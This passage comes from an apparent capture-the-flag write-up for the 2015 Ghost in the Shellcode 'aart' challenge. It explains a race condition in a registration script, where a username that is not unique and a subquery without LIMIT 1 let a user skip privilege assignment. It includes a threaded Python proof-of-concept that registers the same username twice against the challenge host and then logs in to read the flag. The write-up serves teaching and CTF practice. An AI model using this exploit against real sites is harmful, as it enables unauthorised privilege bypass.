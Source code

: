 
flag = re.search(r"<h2>(.*)</h2>.*<h2>", c).group(1)
print "[*] flag: '" + flag + "'"


{% endhighlight %}

## Exploit 2: Race condition - Double registration
In the register script there are two SQL queries that are executed one after the other with the second one depending on the first. This results in a race condition which we can exploit. 

### Vulnerability
The first way to exploit this vulnerability is to register twice before the privileges are inserted into `priv` table. We can see in schema.sql, that the username field is not declared *UNIQUE* and hence we can have two rows with identical usernames. When the subquery in the second query will try to fetch the `id` for the given username, it will retrieve two rows as it does not have a `LIMIT 1` statement. The whole query will then fail with an `Subquery returned more than 1 row` error and no privileges will be inserted.

### Exploit
We need to register twice with the same username, for this we can use the following PoC python script:

{% highlight python %}
#!/usr/bin/env python

import requests
import string
import re
import random
import threading


url_register = "http://aart.2015.ghostintheshellcode.com/register.php"
url_login = "http://aart.2015.ghostintheshellcode.com/login.php"

def register(data):
    requests.post(url_register, data=data)

def login(data):
    c = requests.post(url_login, data=data).content
    flag = re.findall(r"<h2>(.*)</h2>\s+<h2>", c, re.DOTALL)
    if len(flag) > 0 and not "restricted" in flag[0]:
        print "[*] flag: '" + flag[0] + "'"
    else:
        print "[x] fail"

while True:
    # Generate random username 
    username = ''.join(random.choice(string.ascii_letters) for _ in range(100))
    password = '123'

    # register 
    data = { 'username' : username, 'password' : password }
    t1 = threading.Thread(target=register, args=(data,))
    t2 = threading.Thread(target=register, args=(data,))
    t1.start()
    t2.start()
    t1.join()
    t2.join()
    print "[*] Registered twice"

    # check login
